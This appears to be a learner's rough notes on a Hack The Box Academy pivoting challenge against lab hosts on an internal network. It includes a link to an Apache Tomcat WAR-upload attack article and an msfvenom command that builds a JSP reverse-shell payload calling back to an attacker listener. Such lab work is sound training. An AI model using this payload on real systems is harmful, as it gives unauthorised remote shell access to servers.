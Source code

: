 

Enter your credentials again and click `OK` and you will be connected to the provided Parrot Linux desktop instance.

#### Target Hosts

![image](https://academy.hackthebox.com/storage/modules/115/challenge-map.png)

Hosts 1-3 will be your targets for this skills challenge. Each host has a unique vector to attack and may even have more than one route built-in. The challenge questions below can be answered by exploiting these three hosts. Gain access and enumerate these targets. You will need to utilize the Foothold PC provided. The IP will appear when you spawn the targets. Attempting to interact with the targets from anywhere other than the foothold will not work. Keep in mind that the Foothold host has access to the Internal inlanefreight network (`172.16.0.0/23` network) so you may want to pay careful attention to the IP address you pick when starting your listeners.


Steps.

Maybe scan the `172.16.0.0/23` 

How can i find the IP address of blog.inlanefreight.local . We will see



https://null-byte.wonderhowto.com/how-to/hack-apache-tomcat-via-malicious-war-file-upload-0202593/


`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war`


I used this + the article for the first one





Node 2:


172.16.1.12


